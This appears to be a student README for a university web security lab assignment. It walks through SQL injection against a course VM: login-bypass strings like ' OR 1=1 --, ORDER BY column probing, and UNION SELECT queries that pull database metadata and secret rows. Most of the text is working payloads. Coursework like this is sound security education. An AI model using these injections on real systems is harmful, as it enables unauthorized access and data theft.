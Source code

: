 # MP2 - WebSec
##### Instructor: Adam Bates & Ling Ren
CP1 Deadline --- Wednesday, September 27th, 6:00PM

CP2 Deadline --- Thursday, October 6th, 6:00PM

## Project Setup
1. Download VMWare
2. Download Ubuntu 18.04 LTS (CS461 Virtual Machine) at [here](https://uofi.box.com/s/aqaixm5igvqbyxys7gpswxgcsf7nyqo6)
3. Setup the VM in VMWare 

## Build Project
None

## Implementation
#### 2.2.1.1
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
' OR 1=1 -- 
```
#### 2.2.1.2
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
\' OR 1=1 -- 
```
#### 2.2.1.3
##### 1. Write a python script to mine `md5` hash
Type the following command to run the python script `2.2.1.3.py`
```
./2.2.1.3.py
```
The `passwd` got from the python script is `1107388038190758764683658965752877062`

#### 2.2.1.4
##### 1. Figure out how many columns there are in the table with the following command
```
' OR 1=1 ORDER BY 1; -- 
' OR 1=1 ORDER BY 2; -- 
' OR 1=1 ORDER BY 3; -- 
' OR 1=1 ORDER BY 4; -- 
' OR 1=1 ORDER BY 5; -- 
```
The last command will give you an error. Therefore, there are 4 columns in the table.

##### 2. Use the following command to get the `Database Name`
```
' UNION SELECT NULL,NULL,NULL,DATABASE(); -- 
```

##### 3. Use the following command to get the `Database Version`
```
' UNION SELECT NULL,NULL,NULL,version(); -- 
```
Or use the following alternative command
```
' UNION SELECT NULL,NULL,NULL,@@version; -- 
```

##### 4. Use the following command to get all `Table` in the Database
```
' UNION SELECT NULL,NULL,NULL,GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='proj2_inject3'; --
```

##### 5. Use the following command to get all `Column` in Table `HINT`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='HINT'; -- 
```
The `column_name` got from Table `HINT` are _id_ and _message_

Use the following command to get `message` from Table `HINT` with `id=1`
```
' UNION SELECT NULL,NULL,NULL,message FROM HINT WHERE id='1'; -- 
```
The `message` from table `HINT` with `id=1` is _go to table SECRET and get a secret string from row with your md5(netid)_

Use the following command to get all `Column` in Table `SECRET`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='SECRET'; -- 
```
The `column_name` got from Table `SECRET` are _hash_, _id_, and _secret_

Use the following command to get `md5(netid)`
```
./md5.py
```

Then, use the following command to get `secret` from Table `SECRET` with the `hash=md5(netid)`
```
' UNION SELECT NULL,NULL,NULL,secret FROM SECRET WHERE hash='3168622a73961f1d17b1a105be567177'; -- 
```
## Test MP2
Check `MP2 WebSec PDF`

## Developers
* Hongbo Zheng [NetID: hongboz2]
* Max Song [NetID: mcsong2]
